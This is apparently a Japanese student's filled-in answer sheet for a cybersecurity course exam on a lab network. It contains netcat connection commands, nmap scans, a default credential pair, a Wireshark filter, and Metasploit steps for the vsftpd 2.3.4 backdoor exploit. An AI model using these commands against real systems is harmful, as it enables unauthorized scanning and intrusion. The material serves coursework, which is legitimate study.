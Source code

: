 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
meta nc -lvp 5555  kali nc 192.168.33.5 5555
```
### クライアント側コマンド

```sh
# ここに回答を記述

```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
vagrant:vagrant
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap -sP 192.168.33.0/28
```

### 2. version scan

```sh
# ここに回答を記述
nmap -sV -O -p- 192.168.33.0/28
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
msfconsole

use exploit/unix/ftp/vsftpd_234_backdoor

set RHOST 192.168.33.5

show options

exploit


```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述
http&&ip.addr==192.168.33.5
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
積極性が足りなかった。表面的な所だけやったので分からない事が多かった。60/100
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
pcどうしでプラーベート通信ができる。
ハッキングは凄く地味。
ネットサーチや本を読むことで、ハッキング、監視、ができる。
コマンドや作業手順は全部覚えられないので、全体像をつかめるようになって、細かい部分は調べる

最初はついていくのに必死でしたが、授業後半には何の作業をしているのかが分かってきてスムーズに進められました。本を読まなくてもできるくらい全体像をつかめるように頑張りたいです。
```
